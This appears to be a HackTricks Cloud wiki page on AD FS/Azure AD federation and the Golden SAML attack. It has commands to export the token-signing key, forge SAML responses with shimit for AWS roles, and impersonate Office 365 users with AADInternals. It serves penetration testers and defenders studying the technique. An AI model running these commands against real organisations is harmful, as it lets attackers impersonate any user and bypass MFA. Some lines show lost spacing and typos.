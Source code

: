 # Federation

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

**Federation** is a collection of **domains** that have established **trust**. The level of trust may vary, but typically includes **authentication** and almost always includes **authorization**. A typical federation might include a **number of organizations** that have established **trust** for **shared access** to a set of resources.

You can **federate your on-premises** environment **with Azure AD** and use this federation for authentication and authorization. This sign-in method ensures that all user **authentication occurs on-premises**. This method allows administrators to implement more rigorous levels of access control. Federation with **AD FS** and PingFederate is available.

<figure><img src="../../../../.gitbook/assets/image (83) (1).png" alt=""><figcaption></figcaption></figure>

Bsiacally, in Federation, all **authentication** occurs in the **on-prem** environment and the user experiences SSO across all the trusted environments. Therefore, users can **access** **cloud** applications by using their **on-prem credentials**.

**Security Assertion Markup Language (SAML)** is used for **exchanging** all the authentication and authorization **information** between the providers.

In any federation setup there are three parties:

* User or Client
* Identity Provider (IdP):
* Service Provider (SP)

<figure><img src="../../../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

1. First the user **tries to access an application** (also known as the SP i.e. Service Provider), that might be an AWS console, vSphere web client, etc. Depending on the implementation, the client may go directly to the IdP first, and skip the first step in this diagram.
2. The application then **detects the IdP** (i.e. Identity Provider, could be AD FS, Okta, etc.) to authenticate the user, **generates a SAML AuthnRequest** and redirects the client to the IdP.
3. The **IdP authenticates the user**, **creates a SAMLResponse** and posts it to the SP via the user.
4. SP **checks the SAMLResponse** and **logs the user in**. The SP must have a trust relationship with the IdP. The user can now use the service.

**If you want to learn more about SAML authentication and common attacks go to:**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## Pivoting

* AD FS is a claims-based identity model.
* "..claimsaresimplystatements(forexample,name,identity,group), made about users, that are used primarily for authorizing access to claims-based applications located anywhere on the Internet."
* Claims for a user are written inside the SAML tokens and are then signed to provide confidentiality by the IdP.
* A user is identified by ImmutableID. It is globally unique and stored in Azure AD.
* TheImmuatbleIDisstoredon-premasms-DS-ConsistencyGuidforthe user and/or can be derived from the GUID of the user.
* More info in [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**Golden SAML attack:**

* In ADFS, SAML Response is signed by a token-signing certificate.
* If the certificate is compromised, it is possible to authenticate to the Azure AD as ANY user synced to Azure AD!
* Just like our PTA abuse, password change for a user or MFA won't have any effect because we are forging the authentication response.
* The certificate can be extracted from the AD FS server with DA privileges and then can be used from any internet connected machine.
* More info in [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### Golden SAML

From the previous schema the most interesting part is the third one, were the **IdP** generates a **SAMLResponse** authorising the user to sig in. Depending on the specific IdP implementation, the **response** may be either **signed** or **encrypted** by the **private key of the IdP**. This way, the **SP can verify** that the SAMLResponse was indeed created by the trusted IdP.

Similar to a [golden ticket attack](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket), with the **key** that **signs** the object which holds the **user’s identity** and **permissions** (_KRBTGT_ for golden ticket and token-signing private key for golden SAML), we can then **forge such an “authentication object”** (TGT or SAMLResponse) and **impersonate any user** to gain unauthorized access to the SP.

In addition, golden SAMLs have the following advantages:

* They can be **generated** from practically **anywhere**. You don’t need to be a part of a domain, federation of any other environment you’re dealing with
* They are effective even when **2FA** is enabled
* The token-signing **private key** is **not renewed** automatically
* **Changing** a user’s **password** **won’t affect** the generated SAML

#### AWS + AD FS + Golden SAML = ♥ (case study)

[Active Directory Federation Services](https://docs.microsoft.com/en-us/previous-versions/windows/server-2008/bb897402\(v=msdn.10\)) (**AD FS**) is a Microsoft standards-based domain service that allows the **secure sharing of identity information** between trusted business partners (**federation**). It is basically a service in a domain that provides domain user identities to other service providers within a federation.

Assuming AWS **trusts** the domain which you’ve compromised (in a federation), you can then take advantage of this attack and practically **gain any permissions in the cloud environment**. To perform this attack, you’ll need the **private key that signs the SAML** objects (similarly to the need for the KRBTGT in a golden ticket). For this private key, you don’t need a domain admin access, you’ll only need the AD FS user account.

Here’s a list of the requirements for performing a golden SAML attack:

* **Token-signing private key**
* **IdP public certificate**
* **IdP name**
* **Role name (role to assume)**
* Domain\username
* Role session name in AWS
* Amazon account ID

_The mandatory requirements are highlighted. For the other non-mandatory fields, you can enter whatever you like._

For the **private key** you’ll need access to the **AD FS account**, and from its **personal store** you’ll need to **export the private key** (export can be done with tools like [mimikatz](https://github.com/gentilkiwi/mimikatz)). For the other requirements you can import the powershell snapin Microsoft.Adfs.Powershell and use it as follows (you have to be running as the ADFS user):

```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```

With all the information, it's possible to forget a valid SAMLResponse as the user you want to impersonate using [**shimit**](https://github.com/cyberark/shimit)**:**

{% code overflow="wrap" %}
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

### On-prem -> cloud

```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```

It's also possible to create ImmutableID of cloud only users and impersonate them

```powershell
# Create a realistic ImmutableID and set it for a cloud only user 
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```

## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
